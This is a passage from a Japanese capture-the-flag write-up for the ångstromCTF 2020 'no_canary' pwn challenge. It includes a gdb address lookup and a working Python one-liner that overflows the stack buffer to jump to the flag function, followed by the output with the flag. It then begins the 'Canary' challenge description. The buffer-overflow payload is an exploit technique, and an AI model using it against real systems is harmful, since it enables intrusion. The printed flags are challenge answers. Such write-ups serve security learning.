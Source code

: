 
<br />

### Solution
なんかもう、オフセットサイズとかちゃんと調べず、適当に8バイトずつ値を何回か変えて試しました。

```
gef➤  x flag
0x401186 <flag>:	0xe5894855
```

```
xxxxx@actf:/problems/2020/no_canary$ (python -c "print('a'*32+'a'*8+'\x86\x11\x40\x00\x00\x00\x00\x00')"; cat -) | ./no_canary
Ahhhh, what a beautiful morning on the farm!

       _.-^-._    .--.
    .-'   _   '-. |__|
   /     |_|     \|  |
  /               \  |
 /|     _____     |\ |
  |    |==|==|    |  |
  |    |--|--|    |  |
  |    |==|==|    |  |
^^^^^^^^^^^^^^^^^^^^^^^^

Wait, what? It's already noon!
Why didn't my canary wake me up?
Well, sorry if I kept you waiting.
What's your name? 
Nice to meet you, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�@!
actf{that_gosh_darn_canary_got_me_pwned!}
Segmentation fault
```

<br />

Flag: `actf{that_gosh_darn_canary_got_me_pwned!}`





<br /><br />
<br /><br />
## [Pwn]: Canary (70 points)
- - -
### Challenge
> A tear rolled down her face like a tractor. “David,” she said tearfully, “I don’t want to be a farmer no more.”
<br /><br />
—Anonymous
<br /><br />
Can you call the flag function in this program (source)? Try it out on the shell server at /problems/2020/canary or by connecting with nc shell.actf.co 20701.
<br /><br />
Hint: That printf call looks dangerous too...
